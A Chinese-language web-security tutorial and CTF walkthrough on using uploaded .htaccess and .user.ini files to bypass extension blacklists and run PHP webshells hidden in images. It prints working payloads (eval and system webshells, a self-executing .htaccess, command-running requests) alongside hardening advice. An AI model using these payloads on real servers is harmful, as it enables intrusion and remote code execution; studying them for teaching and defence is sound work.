


# ⚙️ 配置文件后门深度利用：.htaccess 与 .user.ini 绕过后缀黑名单全解

> **极限制胜**：当目标服务器对所有可执行脚本后缀（`.php`、`.phtml`、`.php5` 等）进行了滴水不漏的严格拉黑，但**遗漏了针对配置文件自身的上传校验**时，攻击者可以通过上传配置文件，**从底层直接修改 Web 中间件或 PHP 引擎的解析规则**，让无害的图片文件直接原地升格为可执行 WebShell！

---

## 0. 基础前置认知与小白扫盲：什么是 Web 服务器的局部配置文件后门？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

### 1. 为什么会有配置文件上传漏洞？
* 在真实渗透测试中，很多网站后端不仅采用了严格的后缀名黑名单（拦截 `.php`、`.jsp`、`.asp`），还会在上传目录关闭脚本执行权限。
* **黑客的迂回包抄策略**：
  * “既然你死死盯住 `.php` 后缀，那我就**根本不上传 `.php`**！”
  * 我只上传一张看起来人畜无害的图片（`avatar.png`，里面藏有一句话木马），然后再上传一个非常特殊的**系统配置文件（`.htaccess` 或 `.user.ini`）**。
  * 这个配置文件就像一道圣旨，直接修改了当前文件夹里 Web 服务器的解析规则：**“从现在起，不管谁访问这个目录里的 `.png` 文件，统统强行给我当作 PHP 脚本去执行！”**

---

### 2. 两大配置神器对照表（Apache vs Nginx）
| 配置文件名称 | 适配 Web 服务器与环境 | 触发核心原理与关键指令 |
| :--- | :--- | :--- |
| **`.htaccess`** | **Apache 专属**<br/>（必须开启 `AllowOverride All`） | `SetHandler application/x-httpd-php`<br/>直接强制让 Apache 把当前文件夹下所有文件（哪怕是纯文本或图片）全交给 PHP 解释器执行！ |
| **`.user.ini`** | **Nginx / Apache + PHP-FPM / FastCGI**<br/>（现代容器/微服务环境极常见） | `auto_prepend_file=hack.jpg`<br/>告诉 PHP 引擎：“每当有人访问当前目录下任何一个正规的 PHP 页面（如 `index.php`）时，在执行它之前，**自动先包含并执行 `hack.jpg` 里的代码**！” |

---

## 一、两大配置后门环境与适配矩阵

| 配置文件类型 | 适用中间件 / 运行模式 | 前置触发必要条件 | 作用范围与特性 |
| :--- | :--- | :--- | :--- |
| **`.htaccess`** | **Apache** HTTP Server | 1. 必须为 Apache 中间件；<br>2. 主配置中开启了 `AllowOverride All` 或 `AllowOverride FileInfo`。 | 作用于当前目录及所有子目录，**即时生效（无需等待）**，直接控制 Apache 解析引擎。 |
| **`.user.ini`** | **Nginx** / Apache / IIS (通用) | 1. PHP 必须以 **CGI / FastCGI (如 PHP-FPM)** 模式运行；<br>2. 当前目录内**必须存在至少一个可访问的合法 `.php` 文件**。 | 相当于目录级 `php.ini`，受 `user_ini.cache_ttl` 缓存控制，自动包含指定文件。 |

---

## 二、武器一：.htaccess（Apache 专属规则篡改大杀器）

`.htaccess`（分布式配置文件）允许在单独的文件夹中覆盖主站配置。

### 1. 底层解析劫持数据流模型


### 2. 模式 A：强制全局类型覆盖（SetHandler）
将当前目录下所有文件（无论后缀是 `.jpg`、`.png` 还是 `.txt`），全部无条件作为 PHP 代码执行！
```apache
SetHandler application/x-httpd-php
```
* **实操**：上传包含上述代码的 `.htaccess`，再上传包含一句话木马的任意文件 `avatar.png`，直接访问 `avatar.png` 即可执行代码！

### 3. 模式 B：指定后缀扩展绑定（AddType）
将特定图片后缀绑定至 PHP 解释器：
```apache
AddType application/x-httpd-php .png
```
* **效果**：系统所有 `.png` 文件均被视作 PHP 脚本编译执行。

### 4. 模式 C：文件匹配精准打击（FilesMatch）
仅将特定名字的图片作为 PHP 执行（隐蔽性高，不破坏其他图片加载）：
```apache
<FilesMatch "evil_avatar.png">
    SetHandler application/x-httpd-php
</FilesMatch>
```

### 5. 模式 D：自包含单文件 WebShell（Self-Contained .htaccess）
若服务器只允许上传一次文件，无法分别上传 `.htaccess` 和图片，如何**让 `.htaccess` 文件自己执行自己？**
* **原理**：利用 `#` 注释符让 Apache 忽略 PHP 代码，同时利用 `auto_append_file` 让该文件自动将自身追加包含！
```apache
# 第一行：在所有 PHP 访问前追加自身
php_value auto_append_file .htaccess

# 第二行：定义当前文件为 PHP 解析
SetHandler application/x-httpd-php

# 第三行：嵌入真实 PHP 代码 (前缀带换行)
# <?php eval($_POST['shell']); ?>
```
* **效果**：直接访问 `.htaccess` 文件本身，直接触发 RCE 拿 Shell！

---

## 三、武器二：.user.ini（Nginx + PHP-FPM 普适型神级后门）

在目前主流的现代 Web 架构中（如 Nginx + PHP-FPM、Docker 镜像、宝塔面板），Apache 逐渐退居二线，`.htaccess` 往往无效。
**`.user.ini` 是适用于 FastCGI 架构的通用破局神器！**

### 1. 隐式文件预包含执行流程图


### 2. 核心指令：`auto_prepend_file` 与 `auto_append_file`
PHP 支持在每个脚本执行前或执行后，隐式预包含一个文件：
* `auto_prepend_file`：在脚本执行**最开始**包含指定文件；
* `auto_append_file`：在脚本执行**最末尾**包含指定文件。

### 3. 实战攻防三步走：
1. **第一步（上传配置后门）**：
   上传一个文件名为 `.user.ini` 的文本文件，内容只有一行：
   ```ini
   auto_prepend_file = shell.png
   ```
2. **第二步（上传图片马）**：
   上传包含木马代码的图片 `shell.png`：
   ```text
   GIF89a
   <?php @eval($_POST['cmd']); ?>
   ```
3. **第三步（触发执行）**：
   直接访问该目录下的任意正常合法 PHP 文件（如 `index.php` 或 `login.php`）：
   ```text
   POST /uploads/index.php HTTP/1.1
   ...
   cmd=system('cat /flag');
   ```
* **底层机制**：PHP-FPM 在处理 `index.php` 的一瞬间，根据 `.user.ini` 的指令，**在编译 `index.php` 之前，强制将 `shell.png` 作为 PHP 代码包含并执行！** 瞬间获取 Flag！

### 4. ⚠️ 踩坑指南与缓存时间（`cache_ttl`）
* **缓存延迟**：PHP 默认对 `.user.ini` 拥有缓存时间（配置项 `user_ini.cache_ttl`，默认 300 秒）。如果在实战渗透中上传后没有立即生效，可能是缓存尚未过期（CTF 环境中通常设为 0~10 秒）。
* **必须存在宿主 PHP 文件**：若上传目录是纯静态目录，里面**没有任何 `.php` 脚本**，`.user.ini` 将无法被触发。此时需寻找同级或子级存在正常 PHP 脚本的路径进行穿透。

---

## 四、硬核实战例题：经典 CTF 靶场全流程复盘

### 1. 例题一：Upload-Labs Pass-04（.htaccess 绕过严格黑名单）
- **题目背景与源码审计**：
  靶场后端对上传文件的后缀名进行了极其详尽的黑名单拉黑：
  ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".shtm",".shtml",".sHtm",".sHtml",".ini");
      $file_name = trim($_FILES['upload_file']['name']);
      $file_ext = strrchr($file_name, '.');
      $file_ext = strtolower($file_ext);
      // 遍历对比黑名单，但唯独遗漏了 .htaccess！
      if (!in_array($file_ext, $deny_ext)) {
          $temp_file = $_FILES['upload_file']['tmp_name'];
          $img_path = UPLOAD_PATH . '/' . $file_name;
          if (move_uploaded_file($temp_file, $img_path)) {
              $is_upload = true;
          }
      }
  }
  ```
- **利用步骤与网络交互**：
  1. 本地创建文本文件 `.htaccess`，写入：
     ```apache
     SetHandler application/x-httpd-php
     ```
  2. 将其上传，服务端检测到后缀为 `.htaccess`，不在黑名单中，成功移动到 `upload/` 目录。
  3. 本地创建 `shell.jpg`，写入 `<?php @eval($_POST['x']); ?>` 并上传成功。
  4. 浏览器访问 `http://target/upload/shell.jpg`，原本的图片文件被 Apache 强行作为 PHP 解析，使用中国蚁剑连接密码 `x` 成功获得 WebShell！
- **避坑总结**：此利用要求 Apache 配置文件开启 `AllowOverride All`。若为 `AllowOverride None`，Apache 会直接忽略 `.htaccess` 文件。

### 2. 例题二：Nginx 容器环境利用 .user.ini 配合图片马隐式 Getshell
- **题目背景与源码审计**：
  某 CTF 赛题运行在 Ubuntu + Nginx + PHP 7.4-FPM 容器中。题目提供头像上传功能，后端仅允许上传扩展名为 `jpg/png/gif/ini` 的文件，上传目录为 `/var/www/html/user/avatar/`。同时，该目录下存在一个系统自带的默认展示脚本 `profile.php`。
- **利用步骤与网络交互**：
  1. 上传文件 `.user.ini`：
     ```ini
     auto_prepend_file = shell.png
     ```
  2. 上传带图片幻数的木马 `shell.png`：
     ```text
     GIF89a
     <?php system($_GET['cmd']); ?>
     ```
  3. 客户端发起 HTTP GET 请求访问同目录下的正常脚本：
     ```http
     GET /user/avatar/profile.php?cmd=cat%20/flag HTTP/1.1
     Host: ctf.challenge.local
     ```
  4. PHP-FPM 处理 `profile.php` 前隐式包含并执行 `shell.png`，命令执行成功，页面顶端直接回显 `flag{user_ini_auto_prepend_rce}`！

---

## 五、蓝队防御监控与纵深加固基线

1. **中间件级禁用局部配置覆盖（Apache）**：
   在 Apache 主配置文件 `httpd.conf` 或虚拟主机配置中，将网站根目录与上传目录的 `AllowOverride` 显式设置为 `None`：
   ```apache
   <Directory "/var/www/html">
       AllowOverride None
       Require all granted
   </Directory>
   ```
   从根源上阻止 Apache 解析目录下的任何 `.htaccess` 规则。

2. **PHP 引擎层禁用用户自定义 INI 机制（PHP-FPM）**：
   在全局 `php.ini` 中，清空 `user_ini.filename` 配置项（设为空字符串）：
   ```ini
   ; 彻底关闭 .user.ini 目录级配置解析支持
   user_ini.filename = ""
   ```
   如此一来，FastCGI 将完全忽略任何上传的 `.user.ini` 文件。

3. **静态上传目录严格剥离脚本执行权（Nginx）**：
   在 Nginx 配置文件中，针对所有上传及静态存储目录，配置正则匹配直接拦截所有 PHP 执行请求：
   ```nginx
   location ~* ^/(uploads|images|avatar)/.*\.(php|php5|phtml)$ {
       deny all;
       return 403;
   }
   ```

4. **上传逻辑后端严格实施重命名与类型白名单**：
   - 严禁使用客户端上传的原始文件名作为落盘路径；
   - 统一采用服务端随机生成的 UUID 或散列值并强制绑定合法扩展名（如 `md5(time() . rand()) . ".png"`）；
   - 对前导包含点号的隐藏文件（如 `.htaccess`、`.user.ini`、`.git`）直接拦截，杜绝配置文件落地。

---

## 🔗 相关双向链接
- 📁 上级模块：[[03-文件类漏洞]]
- 搭配前置：[[03-文件类漏洞/01-文件上传全面绕过/二次渲染攻防与文件头幻数修补|二次渲染攻防与文件头幻数修补]]
- 进阶包含：[[03-文件类漏洞/02-文件包含与伪协议/日志文件包含与Session文件包含Getshell|日志文件包含与Session文件包含Getshell]]
- 🛠️ 工具支撑：[[00-MOC知识地图/02-网络安全常用工具环境搭建与避坑总索引|网络安全常用工具环境搭建与避坑总索引]]
- 🗺️ 知识地图：[[00-MOC知识地图/00-Web安全与CTF知识地图总览|Web安全与CTF全栈知识地图]]
